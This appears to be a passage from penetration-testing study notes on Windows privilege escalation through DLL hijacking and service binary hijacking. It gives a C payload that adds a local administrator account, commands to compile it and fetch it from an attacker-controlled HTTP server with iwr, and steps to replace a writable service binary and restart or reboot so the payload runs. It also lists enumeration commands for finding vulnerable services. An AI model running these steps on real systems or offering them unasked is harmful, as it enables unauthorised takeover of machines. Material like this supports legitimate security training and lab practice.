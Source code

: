 ```
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
- Cross-compile with mingw32: `x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll`
- Run http server and pull DLL onto target system: `iwr -uri http://192.168.xxx.xx/myDLL.dll -Outfile myDLL.dll`
- Move DLL to folder you control, then restart service with `restart-service servicename`
- Check for new user: `net user`
## Service Binary Hijacking
- Find running processes `Powershell: Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`
	- Keep an eye out for services NOT installed in `System32`
- Check permissions for target binary; `Powershell: icacls "C:\xampp\apache\bin\httpd.exe"
	- Look for `BUILTIN\Users:(F)` (Full Access for standard users)
### Permissions for Icacls
- Replace original binary with a new one written in C (`adduser.c`) that will create a new administrator (`dave2:password123!`)
```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
- Compile the C code with MingW32: `x86_64-w64-mingw32-gcc adduser.c -o adduser.exe`
- Pull new binary (from Kali server) onto target from Powershell: `iwr -uri http://192.168.xxx.xx/adduser.exe -Outfile adduser.exe`
- Move original service binary to home: `move C:\xampp\apache\bin\httpd.exe httpd.exe`
- Move & Rename new binary into it's place: `move .\adduser.exe C:\xampp\apache\bin\httpd.exe`
- Restart the running service: `net stop httpd` then `net start httpd`
- `C:\BackupMonitor\BackupMonitor.exe`
### Service Control Privilege
If user does not have service control privilege: 
- See if service has `Auto` StartMode: `Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'httpd'}
- If user has `SeShutdownPrivilege` (check `whoami /priv`) then reboot: `shutdown /r /t 0`
## Service DLL Hijacking
